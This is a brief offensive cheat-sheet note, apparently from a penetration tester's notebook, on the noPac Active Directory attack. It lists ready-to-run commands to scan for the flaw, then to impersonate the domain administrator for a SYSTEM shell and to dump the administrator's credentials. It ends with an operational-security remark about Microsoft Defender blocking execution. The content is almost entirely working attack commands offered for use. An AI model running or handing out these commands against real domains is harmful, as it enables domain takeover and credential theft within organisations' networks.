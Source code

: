 ```yaml
---
tags:
  - Authenticated
  - Domain-Admin
  - Lateral-Movement
  - Local
  - Privilege-Escalation
  - AD
---
```

[https://github.com/Ridter/noPac.git](https://github.com/Ridter/noPac.git)
## Identify
---
```PowerShell
sudo python3 scanner.py domain.local/user:'password' -dc-ip <DCIP> -use-ldap
```
nxc:
```bash
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

## Exploit
---
```PowerShell
sudo python3 noPac.py DOMAIN.LOCAL/user:'pass' -dc-ip <dcip>  -dc-host DC01 -shell --impersonate administrator -use-ldap
```
```PowerShell
sudo python3 noPac.py DOMAIN.LOCAL/user:'pass' -dc-ip <dcip>  -dc-host DC01 --impersonate administrator -use-ldap -dump -just-dc-user DOMAIN/administrator
```

> [!important] OPSEC: will spawn a SYSTEM shell with smbsexec - shell may establish but defender will likely block further execution.